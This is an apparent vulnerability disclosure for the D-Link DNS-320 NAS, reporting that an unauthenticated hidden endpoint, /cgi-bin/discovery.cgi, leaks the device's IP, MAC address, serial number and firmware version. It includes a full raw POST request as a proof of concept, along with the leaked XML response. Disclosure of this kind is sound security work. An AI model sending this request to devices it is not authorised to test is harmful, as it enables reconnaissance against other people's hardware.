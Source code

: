 # Info Leak in Dlink-DNS320 NAS

## Overview

    * Type: Information leak
    * Supplier: Dlink
    * Victim URL: http://{Device-IP}/cgi-bin/discovery.cgi
    * Product: ShareCenter™ 2-Bay Network Storage Enclosure DNS-320
    * Affect version: (lastest) 2.02b01
    * Firmware download: http://files.dlink.com.au/products/DNS-320/REV_A/Firmware/Firmware_v2.02b01/DNS-320_A1_FW_2.02b01.zip
 

## Description

An infomation leaking vulnerability is at the web management interface of the affected NAS devices. Without any permition, attacker can get sensitive information from the victim URL.

The victime url is a hidden interface and isn't been protected by any authentication and authorization.

## Business Impact

The leaked information is sensitive and could result in serious damage. Thus the vulnerability is very dangerous which could also result in reputational damage for the business through the impact on customers' trust.

## Steps to Reproduce

Visit the victime URL and sensitive information will be responded. Specifically, you can use burpsuite and send the following POST request packet to the device as the following PoC.
```
POST /cgi-bin/discovery.cgi HTTP/1.1
Host: 192.168.1.110
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.1.110
Referer: http://192.168.1.110/web/system_mgr/system.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: username=admin
Connection: close
Content-Length: 4

cmd=
```

Such sensitive information as 'IP address', 'Mac address', 'firmware version', 'Serial number' and other some configurations are explosed as below:
'''
<?xml version="1.0" encoding="utf-8" ?>
<entry>
<Model>DNS-320</Model>
<IP>192.168.1.110</IP>
<Mac>b8:a3:86:94:cb:d4</Mac>
<Name>RE5TLTMyNQ==</Name>
<Version>2.02b01</Version>
<DCPVersion>1.0.3</DCPVersion>
<Serial>12345678</Serial>
<NetworkStatus>Wired</NetworkStatus>
<ConnectType>Fixed</ConnectType>
</entry>
'''
